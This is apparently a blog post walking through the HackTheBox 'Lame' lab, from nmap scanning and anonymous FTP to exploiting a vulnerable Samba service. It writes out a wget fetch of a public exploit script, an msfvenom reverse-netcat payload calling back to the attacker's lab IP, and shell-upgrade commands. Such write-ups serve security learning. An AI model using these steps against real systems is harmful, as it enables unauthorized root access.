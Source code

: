 ```yaml
---
layout: post
title: Lame - HackTheBox
slug: lame-hackthebox
date: '2021-11-07T21:38:18.350Z'
---
```


# Recon
Starting a port scan with nmap:
{% highlight shell %}
IP=10.10.10.3
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $IP -oG nmap/initial
{% endhighlight  %}
![nmap-lame]({{ site.baseurl }}/images/lame/1.jpg)

We can scan with nmap scripts for version and vulnerabilities associated with the ports mentioned above:
{% highlight shell %}
sudo nmap -p21,445,139,22,3632 -sCV $IP -oG nmap/targeted
{% endhighlight  %}

# FTP - Port 21
![nmap-lame]({{ site.baseurl }}/images/lame/ftp1.JPG)

We can log in with de anonymous user, but it is empty.
![ftp-anon]({{ site.baseurl }}/images/lame/ftp2.jpg)

We see that the version of the FTP server is vulnerable (searchsploit). Using a python exploit and metasploit we have not been able to access.
![ftp-exploit]({{ site.baseurl }}/images/lame/ftp3.jpg)

# Samba - Port 445
Searching in searchsploit we can see that samba is vulnerable to remote command execution. We are going to look for a Python script to exploit the vuln:
{% highlight shell %}
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
{% endhighlight  %}

Next, we will see the script and we will change the payload with msfvenom with our IP address:
{% highlight shell %}
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.11 LPORT=443 -f python
{% endhighlight  %}
As we can see, it is not necessary to change anything else.

In the other hand, we should listen with netcat by 443 port that it returns a root shell. Searching for flags at this point is trivial.

# BONUS - Tratamiento TTY
{% highlight shell %}
which python (tenemos python, continuamos)
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
ENTER y ENTER
export TERM=xterm
export SHELL=bash
stty rows 49 columns 207 (sacamos esas medidas del comando stty -a)
{% highlight shell %}
